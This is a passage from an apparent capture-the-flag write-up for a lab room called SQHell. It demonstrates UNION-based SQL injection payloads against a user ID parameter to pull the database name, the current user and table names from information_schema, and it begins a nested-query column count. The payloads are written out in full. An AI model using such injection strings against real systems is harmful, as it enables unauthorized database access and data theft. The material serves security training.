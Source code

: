 Here we've used a false ID, which would result in an error but instead we've used the UNION statement to retrieve the column numbers. Now we know column one and two are useable we can retrieve the user and database:

```text
http://sqhell.thm/user?id=1337 union select database(),user(),null
```

![sqhell-users-db](../assets/images/2021-06-21-22-27-18.png)

Next we want to see the tables in the database and can use the same query as before:

```text
http://sqhell.thm/user?id=1337 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
```

However this time when we ask for all tables using group_concat we only see the one user table:

![sqhell-users-users](../assets/images/2021-06-21-22-38-56.png)

We know a different database contains the posts table, but we find the expected flag table can't be queried here. It's at this point that we need to go back to the hint about running a query inside a query. And we again need to determine the number of columns:

```text
http://sqhell.thm/user?id=1337 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()
```

![sqhell-users-order](../assets/images/2021-06-22-21-53-38.png)
